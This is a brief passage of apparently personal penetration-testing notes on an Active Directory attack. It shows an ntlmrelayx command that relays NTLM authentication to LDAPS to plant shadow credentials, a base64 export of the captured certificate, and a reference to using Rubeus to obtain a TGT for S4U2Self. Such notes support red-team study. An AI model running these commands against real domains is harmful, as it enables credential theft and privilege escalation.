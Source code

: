 ```
sudo proxychains ntlmrelayx.py -t ldaps://10.10.122.10 --shadow-credentials -smb2support --http-port 8888
```

It can be converted to ccache format to use with Impacket, or base64 encoded to use with Rubeus.

```
cat ROsU1G59.pfx | base64 -w 0
```

Since this is a certificate, we use it to request a TGT first which can then be used for S4U2Self. [[Rubeus#asktgt#Get AES Ticket]]

Ensure the keys are deleted after the attack.
